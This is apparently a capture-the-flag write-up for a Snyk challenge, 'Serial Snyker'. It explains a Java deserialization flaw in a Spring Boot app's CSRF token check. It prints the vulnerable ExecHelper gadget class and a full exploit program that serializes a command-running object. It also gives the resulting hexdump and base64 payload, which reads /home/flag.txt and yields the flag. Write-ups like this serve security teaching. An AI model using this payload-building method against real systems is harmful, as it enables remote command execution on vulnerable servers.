

# Serial Snyker

## Foothold

This challenge is a web one with given source code.
It's a Java application using SpringBoot framework and some homemade classes :


And here is the web page, a simple authentication form: 



We cannot find any database related code, but the interessing part is the CSRF token check:


Deserialize function are well-known to be vulnerable in many language :)

We also notice some unsed code with the classes Base64Helper and ExecHelper:

```java
package com.snykctf.serialsnyker;

import java.io.Serializable;
import java.util.Base64;

public class Base64Helper implements Serializable {
    private String base64;

    public Base64Helper(String base64) {
        this.base64 = base64;
    }

    public String decode() {
        return new String(Base64.getDecoder().decode(this.base64));
    }
}
```

```java
package com.snykctf.serialsnyker;

import java.io.*;
import java.util.Arrays;

public class ExecHelper implements Serializable {
    private Base64Helper[] command;
    private String output;

    public ExecHelper(Base64Helper[] command) throws IOException {
        this.command = command;
    }

    public void run() throws IOException {
        String[] command = new String[this.command.length];
        for (int i = 0; i < this.command.length; i++) {
            String str = this.command[i].decode();
            command[i] = str;
        }

        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        String result =  s.hasNext() ? s.next() : "";
        System.out.println("executing...");
        System.out.println(result);
        this.output = result;
        /*Process process = Runtime.getRuntime().exec(command);

        BufferedReader stdInput = new BufferedReader(new
                InputStreamReader(process.getInputStream()));

        BufferedReader stdError = new BufferedReader(new
                InputStreamReader(process.getErrorStream()));

        System.out.println("Command Output:\n");
        String s = null;
        while ((s = stdInput.readLine()) != null) {
            System.out.println(s);
        }*/
    }

    @Override
    public String toString() {
        return "ExecHelper{" +
                "command=" + Arrays.toString(command) +
                ", output='" + output + '\'' +
                '}';
    }

    private final void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        run();
    }
}
```

## Find the vuln

This seems to be some deserialize vulnerability. Having a look at SerializationUtils class. After reading some documentation, deserialize trigger the readObject method of the input objet, and remember the readObejct implementation in ExecHelper class:

```java
    private final void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        run();
    }
```

The run method has the following line of code:

```java
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
```

So if we can deserialize a well built ExecHelper object, we can execute commands :D

Luckily for us, no verification is done on the object, so we can input any serialized object in the CSRF param and let the magic happen :)


## Exploit the backdoor :D


The ExecHelper constructor is wating for an array of Base64Helper object. So we can craft objects then fill an array and call the ExecHelper constructor. Once this done,
we can serialize the class and send it as base64 in the CSRF parameter at login time :)

Here is the main class, full code is in com directory

```java
package com.snykctf.serialsnyker;

import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;

public class Main {
    public static void main(String[] args) {

        Base64Helper[] b = new Base64Helper[2];
        Base64Helper ob = new Base64Helper("Y2F0"); // cat
        Base64Helper ob1 = new Base64Helper("L2hvbWUvZmxhZy50eHQ="); // /home/flag.txt

        try {
            b[0] = ob;
            b[1] = ob1;
            ExecHelper vo1 = new ExecHelper(b);
            FileOutputStream fileOut = new FileOutputStream("/tmp/ValueObject.ser");
            ObjectOutputStream out = new ObjectOutputStream(fileOut);
            out.writeObject(vo1);
            out.close();
            fileOut.close();

        }
        catch (IOException e){
            System.out.println(e);
        }


    }
}
```

```bash
$ cat /tmp/ValueObject.ser |xxd
00000000: aced 0005 7372 0023 636f 6d2e 736e 796b  ....sr.#com.snyk
00000010: 6374 662e 7365 7269 616c 736e 796b 6572  ctf.serialsnyker
00000020: 2e45 7865 6348 656c 7065 72b8 3704 f3bd  .ExecHelper.7...
00000030: 04ae 9b02 0002 5b00 0763 6f6d 6d61 6e64  ......[..command
00000040: 7400 285b 4c63 6f6d 2f73 6e79 6b63 7466  t.([Lcom/snykctf
00000050: 2f73 6572 6961 6c73 6e79 6b65 722f 4261  /serialsnyker/Ba
00000060: 7365 3634 4865 6c70 6572 3b4c 0006 6f75  se64Helper;L..ou
00000070: 7470 7574 7400 124c 6a61 7661 2f6c 616e  tputt..Ljava/lan
00000080: 672f 5374 7269 6e67 3b78 7075 7200 285b  g/String;xpur.([
00000090: 4c63 6f6d 2e73 6e79 6b63 7466 2e73 6572  Lcom.snykctf.ser
000000a0: 6961 6c73 6e79 6b65 722e 4261 7365 3634  ialsnyker.Base64
000000b0: 4865 6c70 6572 3bf9 bf0e aac6 ef69 9402  Helper;......i..
000000c0: 0000 7870 0000 0002 7372 0025 636f 6d2e  ..xp....sr.%com.
000000d0: 736e 796b 6374 662e 7365 7269 616c 736e  snykctf.serialsn
000000e0: 796b 6572 2e42 6173 6536 3448 656c 7065  yker.Base64Helpe
000000f0: 7239 2324 b561 f0ea f102 0001 4c00 0662  r9#$.a......L..b
00000100: 6173 6536 3471 007e 0002 7870 7400 0459  ase64q.~..xpt..Y
00000110: 3246 3073 7100 7e00 0674 0014 4c32 6876  2F0sq.~..t..L2hv
00000120: 6257 5576 5a6d 7868 5a79 3530 6548 513d  bWUvZmxhZy50eHQ=
00000130: 70                                       p

$ cat /tmp/ValueObject.ser |base64 -w0
rO0ABXNyACNjb20uc255a2N0Zi5zZXJpYWxzbnlrZXIuRXhlY0hlbHBlcrg3BPO9BK6bAgACWwAHY29tbWFuZHQAKFtMY29tL3NueWtjdGYvc2VyaWFsc255a2VyL0Jhc2U2NEhlbHBlcjtMAAZvdXRwdXR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHVyAChbTGNvbS5zbnlrY3RmLnNlcmlhbHNueWtlci5CYXNlNjRIZWxwZXI7+b8OqsbvaZQCAAB4cAAAAAJzcgAlY29tLnNueWtjdGYuc2VyaWFsc255a2VyLkJhc2U2NEhlbHBlcjkjJLVh8OrxAgABTAAGYmFzZTY0cQB+AAJ4cHQABFkyRjBzcQB+AAZ0ABRMMmh2YldVdlpteGhaeTUwZUhRPXA=
```


SNYK{09f30b0210c2c0fe55eea091a8f4b1d38cd10364af0544c5d7faa41cb4b49954}